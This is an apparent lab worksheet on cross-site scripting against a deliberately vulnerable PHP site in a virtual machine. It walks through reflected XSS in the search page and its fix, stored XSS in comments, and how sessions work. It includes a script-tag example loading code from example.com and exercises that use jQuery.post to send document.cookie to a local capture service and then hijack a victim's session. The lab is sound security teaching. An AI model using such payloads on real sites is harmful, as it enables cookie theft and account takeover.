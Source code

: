 Worksheet
========================================================================

Preparation
___________

Start the Virtual Machine and use your favourite browser to navigate to the
web application (port 12342), Usermin (port 12323) and Request Bin (port 12344).

After logging in, Usermin will show you the contents of ``/home/student``, from
which you can access the web application's code in the ``webapp`` folder.

The web application is a sample website designed to demonstrate
some security vulnerabilities, including those explained in this worksheet.

The first step is to familiarise with the website. You can create an
account using the "Register" link at the top of the page. The website
allows users to login, view articles and write comments.


Unsanitised output
_____________________

Try to use the search functionality of the website. This page simply
searches the database for articles by their title.

In this website, the search input is not appropriately sanitised.
Notice that the search functionality of the website returns a webpage with
a heading which counts the number of results and prints back the search
terms used (i.e. searching for ``Lorem ipsum`` will print ``4 results for "Lorem ipsum"``).

If you insert some HTML code into the input bar, you can notice that
this is not correctly filtered by the application.
For example, if you type ``<u>Hello</u>`` into the search bar and press enter,
you can see that the webpage will display the text underlined, instead of
displaying the string as it has been typed. This is
because the HTML ``<u>...</u>`` tag is responsible for underlining text,
and the unfiltered text is interpreted as HTML code by the browser.

**Exploit this functionality to display an arbitrary image from the internet**
**in the search page.**

Hint:
    You can find a list of HTML tags at http://www.w3schools.com/tags/.

This type of attack is known as *non-persistent* or *reflected*,
because the result is shown back to the user but it is
not saved in the website's database, and it needs the attacker to share
the link of the search results page and it only affects users who
click on the malicious link.


Fix the search
______________

The webpage which is responsible for the search is available for you to
edit from Usermin in ``/home/student/webapp/pages/search.php``. You can
make changes to the file, save it and reload the page of the website
to check the result.

If things go wrong and you want to restore the initial version of the file,
simply delete your VM and restart it from a fresh copy.

**TODO: Maybe provide something easier to reset the code?**

PHP files (having ``.php`` extension) contain HTML code and they may contain some PHP code
between ``<?php`` and ``?>`` tags. PHP code is processed by the server when
a webpage is requested, its output is mixed with the HTML page and only
HTML is returned to the web browser. Variable names start with a dollar sign (``$``)
and all instructions must terminate with a semicolon (``;``). You can learn more about the language at
http://php.net/manual/en/langref.php.

The ``prepareSearchTerm`` function is used to prepare the string before it
is used to search the articles of the website. Currently, it only capitalises
the first letter of each word in the string
(i.e. ``this is a search query`` -> ``This Is A Search Query``).

**Change the** ``prepareSearchTerm`` **function to fix the vulnerability.**
**Then test that the string you prepared in the previous exercise**
**is now innocuous and can't be used to display an image.**

Hint:
    There are a couple of ways you can implement the fix to prevent
    HTML markup from being injected. Symbols, if are not
    intended to be interpreted as code, should be encoded in their
    hexadecimal HTML notation, e.g. ``£`` can be written
    as ``&#163;`` (or its memorable equivalent ``&pound;``).


Injecting Javascript Code
_________________________

Injecting simple formatting in webpages may temporarily
disrupt the layout of the webpage but is not generally a security risk.

Images can be a risk for privacy in some cases, for example if the
image is served by a webserver which is under the control of the attacker,
this can be used to retrieve information about the end user, such as
IP address, the browser used, and whether the user has opened the webpage
or not (this technique is known as `web beacon <https://en.wikipedia.org/wiki/Web_beacon>`_).

Probably, the most dangerous HTML code which can be injected into webpages
is Javascript scripts. These are automatically executed by the web browser
as soon as they are encountered, and permit a broad range of operations, such as
the manipulation of the DOM (structure of the page), reading cookies and
sending HTTP requests.

There are two ways to insert Javascript in a HTML file:

1. Using a ``<script>...</script>`` tag, including the Javascript code directly
   in between the tags.

2. Hosting the script on different web server, and injecting it using:
   ``<script src="http://example.com/malicious-code.js"></script>``,
   where ``malicious-code.js`` is a file containing Javascript code. This
   is known **XSS**, or Cross-site scripting.

The comments section of the website is vulnerable to XSS but this time
the content of the comments is persisted to the database, therefore this
application is vulnerable to *permanent XSS attacks*, which can be vary
dangerous.

**Try typing the following code in the comment box of an article, and observe**
**its effect on you and other users who visit the same page:**

.. code:: javascript

  <script> alert("Hello world"); </script>



How Sessions Work
-----------------

In order to understand identity theft attacks, it is important to
understand how sessions work in web applications. If you already know
about sessions and cookies, feel free to skip this section.

HTTP (*Hypertext Transfer Protocol*) is the protocol used for the transmission
of webpages and is the foundation of websites and web applications. Its
development began in 1989 before modern web applications, and it was originally
designed to serve as a protocol for simple informative webpages. It is probably
for this reason that HTTP is a *stateless* protocol, meaning that its
specification has no concept of a *session* between a client
and a server.

This may at first seem counterintuitive to readers,
because modern websites and web applications still use HTTP and
certainly do support authentication and other
systems that rely on the concept of a *session*.

**Cookies and sessions**

In order to keep track of the
current session information, most web applications use techniques such as
session cookies. Cookies are small strings which contain information that is
exchanged back and forth at every request between a client and a server.

At the first visit, the server assigns a random ID to the client, called the
session ID. This is communicated to the client. The server will store locally
any information regarding the current state of the application (the *session*
*data*), such as the authentication status of the user. The client, on the
other hand, will communicate its session ID to the server at every request,
so to receive webpages personalised on the basis of the logged in user.

The security of this method relies on the fact that the session information is
only accessible by the server, and that the session IDs are extremely
hard to guess.

You can try for yourself: most browsers allow users to view the list of cookies.
**Try visiting a familiar website and logging in**. At this point, you will probably
be able to see some cookie with a name such as "SESSION_ID", "SESSID" or "UID",
which will contain a long random string. Try deleting this cookie and refreshing
the webpage and you will probably be logged out of the website.

Hint:
    If you're using Google Chrome, you should be able to see a list of cookies
    by clicking on the icon in the Omnibar.

    If you're using Firefox, you should be able to see a list of cookies by
    clicking on the information sign icon in the address bar, "More Information",
    "Security" tab.

Ethics and regulations:
    At the time of writing, in the UK websites are required to ask for the
    user's explicit consent
    before storing some cookies on the user's browser
    and also need to explain what cookies are and how exactly they are used
    in the website. This also applies to similar technologies (e.g. HTML5
    session storage), but simple session cookies are generally exempt.
    Learn more at
    https://ico.org.uk/for-organisations/guide-to-pecr/cookies-and-similar-technologies/.


Capturing HTTP requests
-----------------------

Generally XSS attacks rely on sending the cookies' content to a
third party web server, under the control of the attacker.
For the purpose of this practical, a very simple web application is
running on the VM (port 12344). This web application provides an URL,
which you can find on the right of the home page, which simply captures
any HTTP request made to it, and stores the content of the request.

**Visit the Request Bin application (port 12344), get the capture URL from the box**
**on the right, and visit this URL with your browser. Then refresh the**
**home page of the Request Bin application and notice the effect.**

You should find a new request, of type "GET", made by your browser when
trying to open the page. You should be able to see the data associated
with this request, which includes your IP address, the timestamp,
and your user-agent string.


Using Javascript to steal the session ID
----------------------------------------

Javascript code has the ability to read and write cookies from and to the
browser. The cookies string can be accessed as the variable ``document.cookie``,
which contains all cookies in a key-value format (``key1=value1; key2=value2; ...``).

Most modern web browsers allow you access a Javascript interpreter in the scope
of the current webpage, which can be very useful for prototyping and debugging
your Javascript code.
This can generally be accessed under the "Developer Tools" or "Inspector"
menus of your browser.

Open your favourite website and then this Console. Typing ``document.cookie``
will probably show you a long list of cookies, which are used for statistics,
sessions, and advertisement profiling.

Intuitively, being able to read the session ID of another user and using it
on your computer, is normally enough to fool the website into believing you
are in fact the other user: this will cause the website to log you in as the other
user.

Javascript code can be used to make HTTP requests in background. These are
known as AJAX requests. These request can carry arbitrary data, including
information about the user collected from the vulnerable website.

For example, you can use
Javascript to send a requesto the Request Bin application,
by writing in the Console:

.. code:: javascript

  jQuery.post("<CAPTURE URL>",
              {a_number: 42, some_text: "Hello World!"});


Where ``<CAPTURE URL>`` is the URL from the Request Bin application which
captures any request made to it.

This method, provided by the jQuery library (included for simplicity),
makes a HTTP POST request to the URL with payload
``a_number=42`` and ``some_text=Hello World!``. You can learn more about the
``jQuery.post`` method at https://api.jquery.com/jquery.post/.

**Write a comment with some Javascript code that**
**will make HTTP request to the Request Bin capture URL, containing the cookie**
**information from the browser of the user.**

Hint:
  Try combining the function presented above with the ``document.cookie``
  variable. Don't forget the ``<script></script>`` tags!

**Now login as a second user (the "victim") and try visiting the article**
**which contains the malicious comment. Verify that the**
**victim unknowingly sent their cookies the Request Bin application,**
**including their session ID.**

**Now log out and use the session ID to impersonate the victim, without**
**using their credentials.**

Hint:
  To change your current session ID, you will need to edit your own cookies.
  Unfortunately, most modern browsers' developer tools allow you only
  to view and delete cookies, but not to edit them.

  To change the ``PHPSESSID`` cookie to the value ``NEW_VALUE``, you can
  open the website, then the browser's Console, and paste the following
  code:

  .. code:: javascript

    document.cookie = "PHPSESSID=; expires=Thu, 01 Jan 1970 00:00:00 GMT";
    document.cookie = "PHPSESSID=NEW_VALUE";

  Please note that the first line is needed to discard the old value
  of the cookie, by setting its expiration date to the past. The second
  line then sets the cookie value to ``NEW_VALUE``.  You can
  read more about ``document.cookie`` at
  https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie.

  Alternatively you can use a browser extension, such as
  Firebug for Firefox, which is available
  at https://getfirebug.com/downloads/. You can then activate the
  Firebug panel, open the Cookies tab and edit your cookies
  via the UI.

This type of attack is known as *persistent*,
because the malicious code is stored in the website by the attacker.
